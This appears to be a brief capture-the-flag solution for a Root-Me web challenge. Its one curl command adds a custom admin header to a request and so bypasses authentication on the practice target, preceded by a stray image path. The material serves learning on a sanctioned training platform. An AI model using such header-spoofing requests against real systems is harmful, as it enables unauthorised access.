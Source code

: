 # Solution
Add extra header to request to be authenticated
```sh
curl --header "Header-RootMe-Admin: 1" http://challenge01.root-me.org/web-serveur/ch5/
```
